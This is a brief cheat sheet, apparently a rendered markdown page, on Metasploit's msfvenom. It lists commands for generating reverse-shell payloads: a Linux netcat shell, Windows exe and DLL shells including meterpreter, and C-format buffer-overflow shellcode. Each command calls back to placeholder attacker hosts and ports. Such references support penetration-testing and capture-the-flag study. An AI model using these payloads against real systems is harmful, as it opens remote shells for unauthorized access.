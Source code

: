 ```yaml
---
title: MSFVENOM
summary: A Metasploit module that generates shellcodes.
description: A Metasploit module that generates shellcodes.
---
```


**[https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)**

## Basis

Payloads naming convention : \[OS\]/\[arch\]/\[payload\]

 > 
 > **<font color=red>msfvenom --list payloads</font>**</br>
 > List payloads.

## Linux Reverse Shell


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

## Windows Reverse Shell


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.


 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> msfvenom_revshell<font color=red>.dll</font>**</br>
 > Generate a malicious DLL (meterpreter reverse shell).

## Windows Shellcode (Buffer Overflow)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
